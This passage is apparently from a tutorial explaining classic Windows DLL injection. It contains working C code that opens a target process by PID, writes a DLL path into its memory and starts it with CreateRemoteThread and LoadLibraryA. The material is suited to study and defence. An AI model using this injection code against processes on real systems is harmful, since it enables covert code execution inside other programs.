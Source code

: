 We notice that it has a process ID of '2980' which we will be using to try to inject into. We will save this to a variable and then try to call OpenProcess(). We need to make sure that you are the same level or high then the process you are injecting into. It will look like this.

```
    int procID = 2980;
	// Opens the process with the target ID
	HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
	if (process == NULL) {
		printf("\t[!] Error: Could not find or open process: %d\n", procID);
		return 0;
	}
    else {
		printf("\t[*] Sucessfully openned process with ID: %d\n", procID);
	}
```

Once we are sure that the process is open then we can run all the other commands which will inject our given DLL. I will not be going over what these commands do exactly, but Did write some error checking for them to help debug if anything went wrong. 

```
	// Gets the address to create the thread
	LPVOID addr = (LPVOID)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	if (addr == NULL) {
		printf("\t[!] Error: Could not get the process address\n");
		return 0;
	}
	else {
		printf("\t[*] Sucessfully obtained the process addr: %d\n", addr);
	}

	// Allocate memory for the process
	LPVOID arg = (LPVOID)VirtualAllocEx(process, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (arg == NULL) {
		printf("\t[!] Error: the memory could not be allocated inside the chosen process.\n");
		return 0;
	}
	else {
		printf("\t[*] Sucessfully alloced memory: %d\n", arg);
	}

	// Write the process to memory
	int n = WriteProcessMemory(process, arg, dllPath, strlen(dllPath), NULL);
	if (n == 0) {
		printf("\t[!] Error: there was no bytes written to the process's address space.\n");
		return 0;
	}
	else {
		printf("\t[*] Sucessfully wrote to process memory\n");
	}

	// Create the thread which starts the DLL
	HANDLE threadID = CreateRemoteThread(process, NULL, 0, (LPTHREAD_START_ROUTINE)addr, arg, NULL, NULL);
	if (threadID == NULL) {
		printf("\t[!] Error: the remote thread could not be created.\n");
		return 0;
	}
	else {
		printf("\t[+] Success, the remote thread was successfully created: %d\n", threadID);
	}
    
    CloseHandle(process);
```